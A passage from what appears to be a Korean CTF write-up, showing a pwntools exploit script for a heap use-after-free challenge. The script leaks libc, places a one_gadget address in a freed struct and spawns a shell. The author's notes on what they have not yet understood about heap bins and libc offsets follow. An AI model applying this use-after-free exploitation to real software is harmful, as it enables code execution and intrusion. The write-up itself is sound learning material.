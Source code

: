 ```python
custom(0x500, "AAAA", 0)
custom(0x500, "B", -1)

# local, remote:
libc_base = u64(p.recvline()[:-1].ljust(8, b"\x00")) - 0x3ebc42
# remote:
og = libc_base + 0x10a41c
# local:
#og = libc_base + 0x10a2fc
print("libc_base: ", hex(libc_base))
print("og: ", hex(og))

human("1", og)
robot("1")

p.interactive()
```

- one_gadget의 주소를 `human_func`를 이용해 `human`의 `age`에 넣는다. `human`**이 free되어도 이 값은 남아 있으므로 (Use-After-Free)** `robot_func`를 실행했을 때 one_gadget이 실행된다.

### 아직 완전히 이해하지 못한 점들

- heap에 대해 깊게 공부한 적이 없어 unsorted bin, tcache와 같은 용어들을 처음 들어봤는데, 나중에 시간이 되면 **heap에 대해서도 공부해야 함**.
- 0x3ebc42라는 offset이 다행히 remote에서도 적용이 되었는데, 만약 적용되지 않았으면 어떻게 구해야 했을지 잘 모르겠음. 문제에서 사용된 버전의 **libc 파일이 주어졌을 때**, 이 libc 파일에서 **원하는 symbol의 offset을 어떻게 구하는건지 잘 모르겠다**.